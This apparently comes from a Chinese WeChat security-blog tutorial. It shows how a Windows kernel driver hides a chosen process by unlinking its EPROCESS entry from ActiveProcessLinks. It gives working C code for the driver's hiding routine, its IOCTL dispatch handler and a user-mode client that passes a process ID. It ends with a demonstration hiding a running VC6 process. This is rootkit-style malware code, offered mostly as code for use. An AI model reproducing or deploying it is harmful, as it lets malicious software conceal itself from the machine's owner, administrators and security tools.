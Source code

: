 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/q_RLxbs_BU1SKglFvNnvQg)

前言

    在 Windows 的内核中，存在一个双向链表 AcvtivePeorecssList 保存着进程的 EPROCESS 结构，通过断链的操作来实现进程隐藏。

1. 功能分析实现

    通过 Windbg 查看到了 AcvtivePeorecssList 和进程 ID 的位置。

![](https://mmbiz.qpic.cn/mmbiz_png/8miblt1VEWyzC260wuNUZwHmtD6ReXlBe0Re6LfnFRBHoYeHlX7icz0JveibbIpXrqFfEpgqIdqxHjP52UL0Zia6Vg/640?wx_fmt=png)

    那么代码如何实现呢？继续看我这个灵魂画手画的图，既然是一个双向链表。**我们的第二个节点的下一个要指向第四个，第四个的上一个要指向第二个。**  

![](https://mmbiz.qpic.cn/mmbiz_png/8miblt1VEWyzC260wuNUZwHmtD6ReXlBeWtcJnwUIxGKNwKV5huqzc6J8ZjoMC4DXUfJhhloBKsvwU1Fw8Nx42g/640?wx_fmt=png)

2. 代码实现

    这里通过一个循环来遍历，当 ID 等于我们传入的进程 ID，我们就进行断链操作。记住这里的 pEprocess + 0xb4 是获取的进程 ID 的地址，要用 * 取地址的值才可以。

```
//断链操作
pblink->Blink->Flink = pblink->Flink;
pblink->Flink->Blink = pblink->Blink;
```

```
NTSTATUS HidenProcess(ULONG PID){
  ULONG ID = 0;
  DWORD_PTR pEprocess = (DWORD_PTR)PsGetCurrentProcess();
  PLIST_ENTRY palink = (PLIST_ENTRY)(pEprocess + 0xb8);
  PLIST_ENTRY pblink = palink->Flink;
  while (pblink->Flink != palink->Flink){
    pEprocess = ((DWORD_PTR)pblink - 0xb8);
    ID = *((ULONG*)(pEprocess + 0xb4));
    if (ID == PID){
      pblink->Blink->Flink = pblink->Flink;
      pblink->Flink->Blink = pblink->Blink;
      DbgPrint("进程成功隐藏\n");
    }
    pblink = pblink->Flink;
  }
  return STATUS_SUCCESS;
}
```

3. 代码改进

    如果单单用上方这种的话，每次用的话，就需要在驱动文件内传入我们要隐藏的进程 ID，为了方便，这里改用了 I/O 通信，通过三环的 exe 输入进程 ID，之后将进程 ID 发送到驱动文件并实施隐藏效果。  

    三环代码

```
#include <stdio.h>
#include <windows.h>
#include <stdlib.h>
#include <winioctl.h>
#define IO_READ_Control CTL_CODE(FILE_DEVICE_UNKNOWN, 0x999, METHOD_BUFFERED, FILE_SPECIAL_ACCESS)
int main(int argc, char* argv[])
{
  HANDLE h = CreateFile(L"\\\\.\\meta", GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, 0);
  ULONG inlen = 0;
  printf("请输入要隐藏的进程ID:\n");
  scanf("%d",&inlen);
  ULONG pro = 0;
  if (DeviceIoControl(h, IO_READ_Control, &inlen, sizeof(inlen), &inlen, sizeof(inlen), &pro, NULL)){
    printf("进程隐藏成功");
  }
  CloseHandle(h);
  system("pause");
  return 0;
}
```

驱动代码  

        将下方的回调函数改为 MyControl，并将 MyControl 接收到的三环 exe 发送的进程 ID 传入到 HidenProcess 函数中，实现进程断链隐藏。

```
PDRIVER_OBJECT-->MajorFunction[IRP_MJ_DEVICE_CONTROL]=MyControl
```

![](https://mmbiz.qpic.cn/mmbiz_png/8miblt1VEWyzC260wuNUZwHmtD6ReXlBer6mkcEWU5LTpOIud0ic51prib8GrRSIrENmvk3ANmm9zGOVrufqfYxyw/640?wx_fmt=png)

```
NTSTATUS HidenProcess(ULONG PID){
  ULONG ID = 0;
  DWORD_PTR pEprocess = (DWORD_PTR)PsGetCurrentProcess();
  PLIST_ENTRY palink = (PLIST_ENTRY)(pEprocess + 0xb8);
  PLIST_ENTRY pblink = palink->Flink;
  while (pblink->Flink != palink->Flink){
    pEprocess = ((DWORD_PTR)pblink - 0xb8);
    ID = *((ULONG*)(pEprocess + 0xb4));
    if (ID == PID){
      pblink->Blink->Flink = pblink->Flink;
      pblink->Flink->Blink = pblink->Blink;
      DbgPrint("进程成功隐藏\n");
    }
    pblink = pblink->Flink;
  }
  return STATUS_SUCCESS;
}

NTSTATUS MyControl(PDEVICE_OBJECT DeviceObject, PIRP pir){
  //获取设备栈
  PIO_STACK_LOCATION pio = IoGetCurrentIrpStackLocation(pir);
  PVOID buffer = pir->AssociatedIrp.SystemBuffer;//数据
  ULONG code = pio->Parameters.DeviceIoControl.IoControlCode;
  pir->IoStatus.Status = STATUS_SUCCESS;//返回成功
  pir->IoStatus.Information = 4;//只接受四个
  ULONG PID = 0;
  switch (code){
    case IO_READ_Control:
    {
      
      DbgPrint("要隐藏的进程ID为 :%d\r\n",*(PULONG_PTR)buffer);
      PID = *(PULONG_PTR)buffer;
      HidenProcess(PID);
      break;
    }
    default:
      break;
  }
  IoCompleteRequest(pir, IO_NO_INCREMENT);//封包发送
  return STATUS_SUCCESS;
}
```

    **全部驱动代码在公众号留言回复：****进程隐藏** **即可获取**

 3. 运行实例

    这里我打开了一个 VC6 编译器，进程 ID 为 3124。

![](https://mmbiz.qpic.cn/mmbiz_png/8miblt1VEWyzC260wuNUZwHmtD6ReXlBeicXPprNlrw5ico8nHN3ZdGVWhUasj6FkJJ1OfVw5PicNaJL2pOXu5m6Hg/640?wx_fmt=png)

    接下来输入 VC6 的进程 ID，并看一下效果，成功隐藏掉了 VC6 的进程。

![](https://mmbiz.qpic.cn/mmbiz_png/8miblt1VEWyzC260wuNUZwHmtD6ReXlBeLWbouKz2R3Xib1JfdOiauVoicSwJ45ygEvfsIFQAhMbZ5HAWK2ibvZYcEg/640?wx_fmt=png)

 **微信搜索关注 "安全族" 长期更新安全资料，扫一扫即可关注安全族！**

![](https://mmbiz.qpic.cn/mmbiz_jpg/8miblt1VEWywCsRiaweFhRW8aDdjtoCoSU2eQAJ6KxKAoP0PSHvjGJvTZcRRXTAeSd9Qyib0ynLnBUwdiahhhOaSDQ/640?wx_fmt=jpeg)
